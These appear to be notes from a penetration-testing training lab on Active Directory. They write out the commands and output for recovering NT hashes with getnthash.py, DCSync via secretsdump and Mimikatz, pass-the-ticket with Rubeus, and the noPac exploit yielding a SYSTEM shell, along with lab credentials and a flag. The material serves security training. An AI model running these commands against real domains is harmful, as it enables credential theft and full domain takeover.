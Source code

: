 Submitting a TGS Request for Ourselves Using getnthash.py
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
313b6f423cd1ee07e91315b4919fb4ba

Using Domain Controller NTLM Hash to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba


Alternatively :

Requesting TGT and Performing PTT with DC01$ Machine Account
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

Confirming the Ticket is in Memory
klist

Performing DCSync with Mimikatz
cd .\mimikatz\x64\
.\mimikatz.exe
lsadump::dcsync /user:inlanefreight\krbtgt




## LAB

This tool is present on the ATTACK01 host in /opt/noPac.

ssh htb-student@$TARGET
HTB_@cademy_stdnt!

cd /opt/noPac

sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
                                            
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663

sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

C:\Windows\system32>type C:\Users\Administrator\Desktop\DailyTasks\flag.txt
D0ntSl@ckonN0P@c!
